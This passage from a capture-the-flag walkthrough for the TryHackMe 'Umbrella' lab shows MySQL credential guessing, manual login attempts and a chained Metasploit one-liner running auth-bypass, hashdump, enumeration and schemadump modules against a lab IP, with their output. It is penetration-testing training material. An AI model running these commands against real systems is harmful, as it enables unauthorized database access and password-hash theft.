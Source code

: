 ```bash
|     test:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
MAC Address: 02:47:57:07:72:C9 (Unknown)
```

That seems to be too easy.

```bash
root@ip-10-10-214-222:~# mysql -u root -h 10.10.31.98
ERROR 1045 (28000): Access denied for user 'root'@'10.10.214.222' (using password: NO)
root@ip-10-10-214-222:~# mysql -u root -h 10.10.31.98 -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'root'@'10.10.214.222' (using password: YES)
root@ip-10-10-214-222:~# mysql -u user -h 10.10.31.98
ERROR 1045 (28000): Access denied for user 'user'@'10.10.214.222' (using password: NO)
root@ip-10-10-214-222:~# mysql -u test -h 10.10.31.98
ERROR 1045 (28000): Access denied for user 'test'@'10.10.214.222' (using password: NO)
root@ip-10-10-214-222:~# mysql -u web -h 10.10.31.98
ERROR 1045 (28000): Access denied for user 'web'@'10.10.214.222' (using password: NO)
```

I was expecting this. Thus, I used metasploit and tried a few more scripts (credit to [Hacktricks]([3306 - Pentesting Mysql - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#hacktricks-automatic-commands))).

```bash
root@ip-10-10-214-222:~# msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_version; set RHOSTS 10.10.31.98; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_authbypass_hashdump; set RHOSTS 10.10.31.98; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/admin/mysql/mysql_enum; set RHOSTS 10.10.31.98; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_hashdump; set RHOSTS 10.10.31.98; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_schemadump; set RHOSTS 10.10.31.98; set RPORT 3306; run; exit' 
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
RHOSTS => 10.10.31.98
RPORT => 3306
[+] 10.10.31.98:3306      - 10.10.31.98:3306 is running MySQL 5.7.40 (protocol 10)
[*] 10.10.31.98:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
RHOSTS => 10.10.31.98
RPORT => 3306
[+] 10.10.31.98:3306      - 10.10.31.98:3306 The server allows logins, proceeding with bypass test
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 10% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 20% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 30% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 40% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 50% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 60% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 70% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 80% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 90% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 100% complete
[-] 10.10.31.98:3306      - 10.10.31.98:3306 Unable to bypass authentication, this target may not be vulnerable
[*] 10.10.31.98:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
RHOSTS => 10.10.31.98
RPORT => 3306
[*] Running module against 10.10.31.98
```

[1]: https://tryhackme.com/room/umbrella